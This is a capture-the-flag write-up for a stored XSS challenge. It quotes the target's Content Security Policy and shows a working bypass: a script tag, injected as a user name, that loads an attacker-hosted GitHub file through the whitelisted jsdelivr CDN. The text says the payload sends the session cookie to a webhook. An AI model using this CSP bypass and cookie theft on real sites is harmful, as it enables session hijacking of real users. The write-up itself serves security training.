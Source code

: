 # Writeup Notes

This would be your typical XSS challenge since the name gets directly stored in the SQL database and printed out to the screen, but there's a relatively strict CSP. CSP refers to the Content Security Policy which governs what JavaScript is actually supposed to run. 

```html
Content-Security-Policy: script-src 'self' https://cdn.jsdelivr.net ; 
                         style-src 'self' https://fonts.googleapis.com; 
                         img-src 'self'; font-src 'self' https://fonts.gstatic.com; 
                         child-src 'self'; 
                         frame-src 'self'; 
                         worker-src 'self'; 
                         frame-ancestors 'self'; 
                         form-action 'self'; 
                         base-uri 'self'; 
                         manifest-src 'self'
```

As it turns out, the jsdelivr CDN actually can be used to import files from any Github repository. So, create a new github repo, host a javascript file with your payload, and then set your name to be:
```html
<script src="https://cdn.jsdelivr.net/gh/An00bRektn/test@main/payload.js" onload></script>
```

and you should get a callback at your webhook. The `payload.js` file here will exfiltrate the cookie in base64, so just decode the base64 and stick the cookie in [`jwt.io`](https://jwt.io) to see the flag (because it was in the cookie).